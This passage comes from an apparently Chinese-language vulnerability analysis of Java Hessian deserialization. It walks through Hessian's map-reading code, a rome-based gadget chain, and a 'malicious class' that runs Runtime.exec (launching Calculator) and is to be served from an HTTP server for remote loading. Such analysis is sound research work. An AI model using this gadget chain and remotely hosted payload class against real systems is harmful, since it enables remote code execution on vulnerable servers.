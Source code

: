 ```
    in.readEnd();

    return map;
`}`
```

-&gt;

```
protected void doReadMap(AbstractHessianInput in, Map map, Class&lt;?&gt; keyType, Class&lt;?&gt; valueType) throws IOException `{`
    Deserializer keyDeserializer = null, valueDeserializer = null;

    SerializerFactory factory = findSerializerFactory(in);
    if(keyType != null)`{`
        keyDeserializer = factory.getDeserializer(keyType.getName());
    `}`
    if(valueType != null)`{`
        valueDeserializer = factory.getDeserializer(valueType.getName());
    `}`

    while (!in.isEnd()) `{`
        map.put(keyDeserializer != null ? keyDeserializer.readObject(in) : in.readObject(),
                valueDeserializer != null? valueDeserializer.readObject(in) : in.readObject());
    `}`
`}`
```

从上面贴出来的部分执行栈信息，可以清晰的看到，最终在反序列化中实例化了新的HashMap，然后把反序列化出来的实例put进去，因此，会触发key的hashCode方法。

创建gadget chain：
- 具有rome依赖的gadget chain
依赖

```
&lt;dependency&gt;
  &lt;groupId&gt;com.rometools&lt;/groupId&gt;
  &lt;artifactId&gt;rome&lt;/artifactId&gt;
  &lt;version&gt;1.7.0&lt;/version&gt;
&lt;/dependency&gt;
```

创建恶意class，放到http服务器（80端口）

```
public class ExecObject `{`
    static `{`
        try `{`
            Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```
